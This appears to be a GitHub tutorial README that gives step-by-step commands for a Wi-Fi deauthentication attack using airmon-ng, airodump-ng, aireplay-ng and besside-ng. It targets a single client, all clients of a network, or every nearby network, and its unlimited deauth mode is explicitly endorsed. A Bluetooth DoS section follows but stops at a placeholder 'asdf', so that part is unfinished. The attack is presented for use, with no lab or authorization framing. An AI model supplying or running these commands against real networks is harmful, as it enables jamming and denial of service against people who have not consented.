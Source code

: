 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later.

`~$` is local user.  
`~#` is root user.   




#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
ifconfig wlan0
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching your targeted Wi-Fi network/router
Now run the following commands :  
```
airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching your targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>
<br>


#### Step 4 : Attacking (on particular Client // on all Clients)
Now open new terminal tab and run the following commands :  
```
sudo


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client. Also, here `--deauth 0` means unlimited attack and we can even change it to `10` or `100` also.  






---
---



## Bluetooth DOS attack

#### Step 1 : Setup Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon is not appearing, or it's not enabling, then follow the below commands :   
```
rfkill list all
	- - - sudo apt-get update (not required)
sudo apt reinstall blueman
sudo apt reinstall bluetooth
/etc/init.d/bluetooth status
sudo /etc/init.d/bluetooth start

clear

sudo systemctl list-unit-files --type=service
	to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service
sudo systemctl enable bluetooth.service
sudo systemctl list-unit-files --type=service

clear
exit
```
So, now the Bluetooth must be activated properly or can also refer to this [YouTube](https://youtu.be/w1MvrcBSNjw) video. And now we can go to next step.  
<br>


#### Step 2 :  
asdf







